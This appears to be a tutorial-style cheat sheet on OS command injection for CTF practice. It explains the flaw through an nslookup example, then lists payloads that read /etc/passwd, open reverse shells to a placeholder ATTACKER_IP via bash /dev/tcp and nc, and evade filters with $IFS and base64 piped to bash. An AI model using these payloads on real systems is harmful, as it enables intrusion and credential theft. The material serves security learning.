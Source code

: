 # Command Injection

Command injection (also known as OS command injection) is a web security vulnerability that allows an attacker to execute arbitrary operating system (OS) commands on the server that is running an application, and typically fully compromise the application and all its data.

## How it Occurs

Command injection vulnerabilities typically arise when an application passes unsanitized user input to a system shell. The user-supplied input can be crafted to include shell metacharacters, which the shell then interprets as part of a command.

### Example

Consider a web application that allows users to look up the IP address of a domain name:
`https://insecure-website.com/lookup?host=example.com`

The application might use the `nslookup` command to perform the lookup:
`nslookup example.com`

If the application is vulnerable, an attacker could provide the following input:
`example.com; whoami`

The application would then execute the following command:
`nslookup example.com; whoami`

This would cause the application to perform the DNS lookup and then execute the `whoami` command, revealing the user the application is running as.

## Common Payloads

Here are some common payloads for command injection, often useful in CTF challenges:

*   **Listing files:**
    *   `ls -la`
    *   `dir` (Windows)
*   **Reading files:**
    *   `cat /etc/passwd`
    *   `type C:\Windows\win.ini` (Windows)
*   **Finding flags:**
    *   `find / -name "flag*"`
    *   `grep -r "flag" /`
*   **Reverse Shells:**
    *   `bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1`
    *   `nc -e /bin/bash ATTACKER_IP PORT`

## Bypassing Filters

Sometimes, applications will filter out certain characters or keywords. Here are some ways to bypass common filters:

*   **Using command separators:**
    *   `;` (semicolon): Executes commands sequentially.
    *   `&&` (and): Executes the second command only if the first succeeds.
    *   `||` (or): Executes the second command only if the first fails.
    *   `&` (ampersand): Executes the command in the background.
    *   `|` (pipe): Pipes the output of the first command to the input of the second.
*   **Using different characters:**
    *   `$IFS` can be used as a space replacement in some shells (e.g., `cat$IFS/etc/passwd`).
    *   Using base64 encoding to hide payloads: `echo "bHMgLWxh" | base64 -d | bash`
*   **Using different commands:**
    *   If `cat` is blocked, try `more`, `less`, `head`, `tail`, `grep`, `sed`, `awk`.
    *   If `nc` is blocked, try `/dev/tcp`, `curl`, `wget`.
